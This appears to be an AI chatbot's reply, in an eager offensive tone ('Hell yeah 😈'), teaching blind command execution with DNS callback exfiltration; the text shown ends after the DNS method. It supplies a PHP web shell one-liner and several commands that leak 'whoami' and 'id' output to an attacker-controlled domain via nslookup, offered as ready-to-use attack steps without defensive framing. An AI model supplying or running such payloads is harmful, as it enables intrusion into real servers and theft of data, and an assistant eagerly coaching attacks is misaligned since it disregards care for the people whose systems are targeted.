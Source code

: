 Hell yeah 😈 — let's dive into **blind command execution with callbacks**, using **DNS and HTTP exfiltration**. This is your go-to strategy when you can execute commands **but don’t see any output** (like blind RCE or SQLi).

* * *

## 🕳️ THE PROBLEM

You have a web shell or payload like:

```php
<?php system($_GET['cmd']); ?>
```

But the server's output is not visible — either it's blocked, filtered, or the server returns nothing.

* * *

## 💡 THE SOLUTION: CALLBACK EXFILTRATION

You make the target **call back to you**, leaking command output via DNS or HTTP.

* * *

## ☠️ METHOD #1 – DNS Callback (Stealthy AF)

### Why?

✅ Works **even through firewalls**, because DNS is usually allowed  
✅ Great for **short outputs** (hostnames, usernames, IPs)

### Example command:

```bash
nslookup `whoami`.yourdomain.com
```

Or in PHP shell:

```php
system("nslookup `whoami`.attacker.com");
```

Then watch logs on your DNS server or use a service like:

- [interactsh](https://github.com/projectdiscovery/interactsh)
    
- [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)
    
- [Canarytokens](https://canarytokens.org/)
    

### Real Example:

```php
<?php system("nslookup `id|cut -d' ' -f1`.xyz.attacker.com"); ?>
```

